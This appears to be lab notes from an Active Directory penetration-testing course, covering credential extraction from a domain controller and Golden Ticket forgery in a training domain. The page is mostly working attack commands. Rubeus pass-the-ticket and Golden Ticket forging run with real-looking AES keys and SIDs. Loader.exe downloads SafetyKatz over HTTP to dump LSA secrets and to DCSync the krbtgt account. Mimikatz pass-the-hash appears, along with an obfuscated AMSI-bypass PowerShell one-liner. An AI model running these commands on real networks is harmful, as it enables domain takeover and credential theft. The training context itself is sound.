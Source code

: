 # 🎟️ Extract secrets from DC, Create and use Golden Tickets

So after getting domain admin privileges, we will encode parameters as usual and run the rubeus command and ask for tgt and spawn a shell with domain admin privileges ->

<figure><img src="../../.gitbook/assets/image (1109).png" alt=""><figcaption><p>Running the rubeus command makes a shell spawn with DA privileges</p></figcaption></figure>

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

Now we're going to copy Loader.exe on dcorp-dc:

```
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y
#now let's hop on the dcorp-dc machine
winrs -r:dcorp-dc cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.13
```

<figure><img src="../../.gitbook/assets/image (1111).png" alt=""><figcaption><p>Beware the path is dcorp-dc and not dcorpdc like in the manual</p></figcaption></figure>

Now we're going to use ArgSplit on the student VM to encode `lsadump::lsa`

<figure><img src="../../.gitbook/assets/image (1110).png" alt=""><figcaption></figcaption></figure>

And then we will put it on the Admin instance that popped&#x20;

This will allow us to run the following command (don't forget to run a wsl python server to go and fetch the SafteyKatz exe)

```
C:\Users\Public\Loader.exe -path http://172.13.100.13:5454/SafetyKatz.exe -args "%Pwn% /patch" "exit"
```

<figure><img src="../../.gitbook/assets/image (1112).png" alt=""><figcaption></figcaption></figure>

And this will dump the hashes we need:

<figure><img src="../../.gitbook/assets/image (1113).png" alt=""><figcaption></figcaption></figure>

***

To get NTLM hash and AES keys of the krbtgt account, we can use the DCSync attack, now try encoding `lsadump::dcsync`

And we can run the following:

```
C:\Users\Public\Loader.exe -path http://172.16.100.13:5454/SafetyKatz.exe -args "%Pwn% /user:dcorp\krbtgt" "exit"
```

<figure><img src="../../.gitbook/assets/image (1114).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1115).png" alt=""><figcaption></figcaption></figure>

Now we could use the below Rubeus command to generate an OPSEC friendly command for Golden ticket.

Let's first encode "golden"

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /printcmd
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This will generate a command to forge a golden ticket:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We need to add /ptt at the end of the generated command to inject it in the current process.

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:34:22 AM" /minpassage:1 /logoncount:35 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we can access dcorp-dc as admin:

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

We can also use BetterSafetyKatz.exe to create a Golden ticket. Run the below command from an elevated command prompt.

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>We can see ticket is cached</p></figcaption></figure>

Here is a POC we have RCE on dcorp-dc ->

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>dir \dcorp-dc\c$</p></figcaption></figure>

***

We can also use PowerShell Remoting and Invoke-Mimi.ps1 to start a process with DA privileges, we'll need to throw this from a elevated shell:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:cmd.exe"'
```

And this will pop a shell:

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now in the DA process ->

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
$sess = New-PSSession -ComputerName dcorp-dc
Enter-PSSession $sess
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
 S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n'ULl},${t'RuE} )
 exit
 Invoke-Command -FilePath .\Invoke-Mimi.ps1 -Session $sess
 Enter-PSSession $sess
 Invoke-Mimi -Command '"lsadump::lsa /patch"'
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And just like that we are able to dump the hashes

***

Theres some other stuff in the course, go check
